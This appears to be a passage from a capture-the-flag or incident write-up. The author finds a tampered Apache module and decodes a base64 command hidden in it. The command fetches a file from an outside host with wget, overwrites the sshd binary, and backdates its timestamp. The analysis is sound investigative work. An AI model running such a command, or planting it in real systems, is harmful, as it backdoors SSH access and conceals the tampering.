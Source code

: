 ```bash
Subject: Investigations

Hi Steven.

We recently updated the system but are still experiencing some strange behaviour with the Apache service.
We have temporarily moved the web store and database to another server whilst investigations are underway.
If for any reason you need access to the database or web application code, get in touch with Mark and he
will generate a temporary password for you to authenticate to the temporary server.

Thanks,
sysadmin
```

In the Apache modules folder (/lib/apache2/modules) which steven seems to have read-write access to, there’s one file that appears to have been modified on May 17, roughly 4 months after the rest of them were installed.

```bash
steven@production:/lib/apache2/modules$ ls -la
...
-rw-r--r-- 1 root root   14544 Jan  5 14:49 mod_ratelimit.so
-rw-r--r-- 1 root root   34800 May 17  2021 mod_reader.so
-rw-r--r-- 1 root root   14544 Jan  5 14:49 mod_reflector.so
...
```

Copying it to the local machine and analyzing it the same way reveals another, this time base64-encoded, command.

```bash
[0x00001180]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
...
3   0x00002028 0x00002028 148 149  .rodata ascii d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk
...
```

Which decodes to

```
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd; touch -d `date +%Y-%m-%d -r /usr/sbin/a2enmod` /usr/sbin/sshd
```

This command downloads an image off of a server and replaces sshd with it before setting the date of the new sshd to the date a2enmod was last modified, probably because they were installed at the same time. This means that the OpenSSH Daemon was likely modified at some point, which could provide more information.
